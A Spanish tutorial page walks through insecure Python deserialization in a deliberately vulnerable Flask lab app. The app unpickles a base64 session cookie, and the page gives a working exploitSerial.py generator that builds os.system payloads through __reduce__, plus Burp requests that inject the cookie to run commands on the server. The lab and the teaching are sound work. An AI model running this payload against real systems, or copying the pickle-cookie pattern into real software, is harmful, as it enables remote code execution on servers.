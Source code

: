 ```yaml
---
icon: python
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Deserialización Insegura Python

## Pagina Vulnerable Deserialización Insegura en Python

Si nosotros por ejemplo tenemos este codigo de `python` como una pagina por ejemplo:

> app.py

```python
import pickle
import base64
from flask import Flask, request, make_response, render_template, redirect, url_for

app = Flask(__name__)

# Base de datos de usuarios (simulada)
users = {
    "admin": "admin123",
    "user1": "password1",
    "user2": "password2"
}

# Clase del usuario (con deserialización insegura)
class User:
    def __init__(self, username, role):
        self.username = username
        self.role = role

    def __str__(self):
        return f"{self.username} ({self.role})"

@app.route("/")
def index():
    # Obtener la cookie
    session_cookie = request.cookies.get("session")

    if session_cookie:
        try:
            # Deserializar la cookie (VULNERABILIDAD)
            user = pickle.loads(base64.b64decode(session_cookie))
        except Exception as e:
            user = f"Error deserializando: {e}"
    else:
        user = "Invitado"

    return render_template("index.html", user=user)

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        if username in users and users[username] == password:
            # Crear el objeto de usuario
            user = User(username, "admin" if username == "admin" else "user")

            # Serializar el objeto inseguramente con pickle
            session_data = base64.b64encode(pickle.dumps(user)).decode()

            # Crear la cookie con la sesión serializada
            response = make_response(redirect(url_for("index")))
            response.set_cookie("session", session_data)

            return response
        else:
            return "Credenciales inválidas", 403

    return render_template("login.html")

if __name__ == "__main__":
    app.run(debug=True)
```

Vemos que no valida la entrada que se serializa y la `deserializa` lo que venga de forma insegura, ya que no tiene ninguna medida de seguridad, si entramos en la pagina veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

El usuario por defecto sera el siguiente:

```
admin:admin123
```

Ingresamos las credenciales y abriremos `BurpSuite` para recargar la pagina con la sesion iniciada del usuario user y veremos lo siguiente en la `peticion` con `BurpSuite`:

> Peticion de `BurpSuite`

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVOgAAAAAAAACMA2FwcJSMBFVzZXKUk5QpgZR9lCiMCHVzZXJuYW1llIwFYWRtaW6UjARyb2xllIwFYWRtaW6UdWIu
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que la `serializacion` esta en `session=` por lo que tendremos que reemplazar su contenido, por otro codigo serializado con el comando que queramos ejecutar.

## Generar Payload Serializado en Base64

Nos crearemos un script en `python3` para generar codigos `serializados`:

> exploitSerial.py

```python
import pickle
import base64
import os
import argparse

class RCE:
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        return (os.system, (self.command,))

def generate_payload(command):
    """Genera una cookie maliciosa con el comando proporcionado."""
    try:
        payload = base64.b64encode(pickle.dumps(RCE(command))).decode()
        print(f"[+] Payload generado con el comando: {command}")
        print(f"[+] Cookie maliciosa: {payload}")
    except Exception as e:
        print(f"[!] Error generando el payload: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Generador de cookies maliciosas con RCE en Flask")
    parser.add_argument("command", help="Comando a ejecutar en el servidor víctima")

    args = parser.parse_args()
    generate_payload(args.command)
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
python3 exploitSerial.py 'touch /var/www/html/text.txt | whoami > /var/www/html/text.txt'
```

Info:

```
[+] Payload generado con el comando: touch /var/www/html/text.txt | whoami > /var/www/html/text.txt
[+] Cookie maliciosa: gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
```

## Enviar Payload al servidor

Ahora este resultado tendremos que pegarlo en la peticion donde `session=` quedando de la siguiente forma:

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Ahora si enviamos la `peticion` veremos lo siguiente en la pagina:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que algo ha sido modificado, por lo que podemos deducir que si ha funcionado correctamente.

Vamos a irnos directamente a la `IP` para ver si el archivo se subio de forma correcta:

```
URL = http://<IP>/text.txt
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, por lo que podremos generar `payloads` y ejecutar codigo de forma remota.
